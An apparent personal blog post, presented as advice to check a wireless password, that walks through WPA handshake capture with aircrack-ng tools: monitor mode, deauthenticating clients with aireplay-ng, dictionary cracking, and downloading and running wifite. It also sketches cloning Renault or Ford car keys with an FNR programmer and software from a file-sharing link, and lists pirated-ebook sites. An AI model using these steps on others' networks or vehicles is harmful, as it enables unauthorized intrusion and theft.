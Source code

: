 ```yaml
---
layout: post
title: Check your wireless password, or someone could intrude ?
---
```


# Introduction

Wireless is open to attack. Network can be interuppted at any time.

# Hardware

~~~
lspci -m
~~~

Best is supported some of [this](http://www.wirelesshack.org/top-kali-linux-compatible-usb-adapters-dongles-2015.html)

* AR9271
* RT3070
* RT3572
* RTL8187L

You can check also [aircrack
compatibility drivers](http://www.aircrack-ng.org/doku.php?id=compatibility_drivers)

# Installation

~~~
sudo su
apt-get install aircrack-ng reaver
man airodump-ng
ifconfig # find wireless adapters, for example wlan0

airmon-ng check
airmon-ng check kill
airmon-ng
airmon-ng start wlan0 # this will create another adapter mon0
~~~

`airmon-ng start` will show a message that other programs could interfere. You
can `sudo pkill NetworkManager` but it will just restart it. So far so good, all
those programs could stay running (but you should disconnect from all networks).

# Theory

[WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa&DokuWiki=3mlmhn080hqo8eb6p0qsqpvas4)
supports many types of authentication, and only PSK (pre-shared key) AUTH is
crackable. There is no difference between cracking WPA and WPA2.
There is no benefit from collectin IVs. Only we can do is to get handshake when
client connects to the network. Than we can test our dictionary with 300 keys
per second.

~~~
# list all networks (BSSID), channel (CH) and clients
airodump-ng mon0 -w output
airodump-ng mon0 --bssid 12:12:12:12:12:12 -w output
# better is to use channel option -c since more packets are stored
airodump-ng mon0 -c 1 -w output
~~~

Instead of waiting you can deauthenticate some clients:

~~~
aireplay-ng -0 1 -a 12:12:12:12:12:12 -c 11:11:11:11:11:11 --ignore-negative-on mon0
# it should returns some number of ACK [ 5|55 ACKs]
~~~

Note that you can capture all networks (any handshare will be stored) but more
packets will be stored if you listen on specific frequency.
On top of the page it should say: `WPA handshake: 12:12:12:12:12:12` but it
could be replaces with some info. You can check anytime if some od handshake are
stored

~~~
aircrack-ng output*.cap
~~~

Use two different cards, when you run `iwconfig` then one should show `IEEE
802.11bg` and another `IEEE 802.11bgn`.

# Wifite

<https://github.com/derv82/wifite>

~~~
wget https://raw.github.com/derv82/wifite/master/wifite.py
chmod +x wifite.py
sudo ./wifite.py
~~~

# FNR Renault Ford

Just to note that it's easy to get keys of Renault or Ford cars.
Buy [remote key smart
card](https://www.aliexpress.com/item/2PCS-New-quality-Remote-Key-433-MHz-W-Chip-ID46-for-RENAULT-Megane-Scenic-Smart-Card/32650476913.html)
and [fnr key prog for
renault](https://www.aliexpress.com/item/High-Quality-FNR-Key-Prog-For-Renault-For-Ford-For-Nissan-4-IN-1-Key-Programmer/1000001169897.html)
(you also need a usb key, since it is required for software), software you can
download on
[mediafire](http://www.mediafire.com/file/l6jj1xd855612i5/KEY-PROG-sk127.rar
)

Add self to virtual box users `sudo usermod -a -G vboxusers orlovic` and attach
Usb key and go to settings -> usb -> add -> FTDI FT232R USB UART, cable that you
buyed.

Change port number to ![com port 12]({{ site.baseurl }}/assets/posts/port12.png)

# PDF torrent books

Maybe not so nice to share, but also interesing index of books:

* https://it-ebooks.info/tag/rails/
* http://www.allitebooks.com/

